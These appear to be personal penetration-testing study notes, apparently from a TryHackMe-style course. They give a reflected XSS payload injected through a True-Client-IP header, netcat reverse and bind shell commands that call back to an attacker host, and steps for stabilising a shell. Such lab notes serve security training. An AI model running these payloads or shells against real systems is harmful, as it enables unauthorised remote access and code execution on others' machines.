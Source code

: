 Reflected (Client-side) XSS
adding it to data sent to the web page intercepting with burp proxy, the example was when logging out, catching the request to save the ip and  adding a field called True-Client-IP with the value `<iframe src="javascript:alert(`xss`)">`
first go to the new url, then refresh the page


# Shells & Reverse shells

netcat, can receive rev shells
socat, better netcat

Reverse shell ex:
On the attacking machine: sudo nc -lvnp 443
On the target: `nc <LOCAL-IP> <PORT> -e /bin/bash`

Bind shell ex:
On the target: `nc -lvnp <port> -e "cmd.exe"`
On the attacking machine: `nc MACHINE_IP <port>`

thm alias listener =
sudo rlwrap nc -lvnp 443

### Stabilizing the shell

python -c 'import pty;pty.spawn("/bin/bash")'
perl -e 'exec "/bin/bash";'
export TERM=xterm adds term commands such as clear
background the shell using Ctrl + Z
in our own terminal use stty raw -echo; fg turns off echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes) & foregrounds the shell
to get echo back after type reset & press enter

Better shell

1. Finding out more about our own shell

echo $TERM
save response

stty -a				(apt install core-utils if no stty)
gives rows and columns of current shell and more

2. Hop back to reverse shell

stty raw echo; fg
adds use of arrow keys.. to remote shell; go back to remote shell

term will look funny and type last command…

reset
it will ask for terminal type?
answer with what your $TERM  was
if error try for example xterm

stty rows nn columns nn
where nn is your saved information
this will make apps like nano work
